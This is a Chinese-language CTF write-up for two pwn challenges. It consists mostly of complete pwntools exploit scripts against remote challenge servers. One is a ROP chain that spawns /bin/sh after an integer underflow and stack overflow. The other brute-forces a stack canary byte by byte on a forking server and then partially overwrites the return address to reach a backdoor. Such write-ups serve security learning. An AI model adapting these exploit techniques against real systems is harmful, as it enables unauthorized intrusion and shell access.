


> 坐牢了，只会做baby题

# shaokao

整型下溢，然后有个栈溢出，直接用ROPgadget生成ropchain



```python
#!/usr/bin/env python2
from pwn import*

context(os = 'linux', arch = 'amd64', log_level = 'debug')
def debug(cmd=''):
	cmd += "b main\n"
	gdb.attach(p, cmd)
	pause()

host = "123.56.251.120"
port = 36293
#pl = process("./shaokao")
pl = remote(host,  port)

# debug()
pl.recvuntil("> ")
pl.sendline("1")
pl.recv()
pl.sendline("1")
pl.recv()
pl.sendline("-1145144")
pl.recvuntil("> ")
pl.sendline("4")
pl.recvuntil("> ")
pl.sendline("5")
pl.recv()


p = b"a"*40

p += p64(0x000000000040a67e) # pop rsi ; ret
p += p64(0x00000000004e60e0) # @ .data
p += p64(0x0000000000458827) # pop rax ; ret
p += b'/bin//sh'
p += p64(0x000000000045af95) # mov qword ptr [rsi], rax ; ret
p += p64(0x000000000040a67e) # pop rsi ; ret
p += p64(0x00000000004e60e8) # @ .data + 8
p += p64(0x0000000000447339) # xor rax, rax ; ret
p += p64(0x000000000045af95) # mov qword ptr [rsi], rax ; ret
p += p64(0x000000000040264f) # pop rdi ; ret
p += p64(0x00000000004e60e0) # @ .data
p += p64(0x000000000040a67e) # pop rsi ; ret
p += p64(0x00000000004e60e8) # @ .data + 8
p += p64(0x00000000004a404b) # pop rdx ; pop rbx ; ret
p += p64(0x00000000004e60e8) # @ .data + 8
p += p64(0x4141414141414141) # padding
p += p64(0x0000000000447339) # xor rax, rax ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000496710) # add rax, 1 ; ret
p += p64(0x0000000000402404) # syscall
pl.sendline(p)


pl.interactive()
```


# funcanary

fork子进程崩溃不改变canary,利用该性质逐字节爆破canary,发现后门函数，直接覆盖前两位地址，第三位直接猜



```python
#!/usr/bin/env python2
from pwn import*

context(os = 'linux', arch = 'amd64', log_level = 'debug')
def debug(cmd=''):
	cmd += "b main\n"
	gdb.attach(p, cmd)
	pause()

host = "123.57.248.214"
port = 25775
#pt = process("./funcanary")
pt = remote(host, port)

pt.recvuntil("welcome\n")
canary = '\x00'
for k in range(7):
    for i in range(256):
        print "the " + str(k) + ": " + chr(i)
        pt.send('a'*(0x70-8) + canary + chr(i))
        a = pt.recvuntil("welcome\n")
        print a
        if "fun" in a:
                canary += chr(i)
                print "canary: " + canary
                break
print "canary: " + canary

pyload = 'a'*(0x70-8) + canary 
pyload += 'b'*8 + '\x28\x02'
pt.send(pyload)
pyload = 'a'*(0x70-8) + canary 
pyload += 'b'*8 + '\x28\x12'
pt.send(pyload)
pyload = 'a'*(0x70-8) + canary 
pyload += 'b'*8 + '\x28\x22'
pt.send(pyload)
pyload = 'a'*(0x70-8) + canary 
pyload += 'b'*8 + '\x28\x32'
pt.send(pyload)
pyload = 'a'*(0x70-8) + canary 
pyload += 'b'*8 + '\x28\x42'
pt.send(pyload)
pyload = 'a'*(0x70-8) + canary 
pyload += 'b'*8 + '\x28\x52'
pt.send(pyload)
pyload = 'a'*(0x70-8) + canary 
pyload += 'b'*8 + '\x28\x62'
pt.send(pyload)
pyload = 'a'*(0x70-8) + canary 
pyload += 'b'*8 + '\x28\x72'
pt.send(pyload)
pyload = 'a'*(0x70-8) + canary 
pyload += 'b'*8 + '\x28\x82'
pt.send(pyload)
pyload = 'a'*(0x70-8) + canary 
pyload += 'b'*8 + '\x28\x92'
pt.send(pyload)
pyload = 'a'*(0x70-8) + canary 
pyload += 'b'*8 + '\x28\xa2'
pt.send(pyload)
pyload = 'a'*(0x70-8) + canary 
pyload += 'b'*8 + '\x28\xb2'
pt.send(pyload)
pyload = 'a'*(0x70-8) + canary 
pyload += 'b'*8 + '\x28\xc2'
pt.send(pyload)
pyload = 'a'*(0x70-8) + canary 
pyload += 'b'*8 + '\x28\xd2'
pt.send(pyload)
pyload = 'a'*(0x70-8) + canary 
pyload += 'b'*8 + '\x28\xe2'
pt.send(pyload)
pyload = 'a'*(0x70-8) + canary 
pyload += 'b'*8 + '\x28\xf2'
pt.send(pyload)


pt.interactive()
```
